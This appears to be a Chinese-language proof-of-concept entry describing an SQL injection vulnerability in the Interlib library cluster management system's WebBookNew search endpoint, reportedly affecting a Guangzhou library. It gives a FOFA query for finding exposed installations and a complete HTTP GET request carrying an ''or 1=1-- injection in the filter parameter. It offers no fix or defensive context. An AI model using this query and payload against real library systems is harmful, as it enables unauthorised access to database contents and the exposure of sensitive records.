 ## 广州图书馆集群系统WebBookNew存在SQL注入漏洞

图创图书馆集群管理系统/interlib/websearch/WebBookNew存在SQL注入漏洞，攻击者可利用漏洞获取数据库敏感信息

## fofa
```
body="interlib"
```

## poc
```
GET /interlib/websearch/WebBookNew?cmdACT=search_BookNew&showpage=1&filter=''+or+1=1--+ HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Upgrade-Insecure-Requests: 1
```
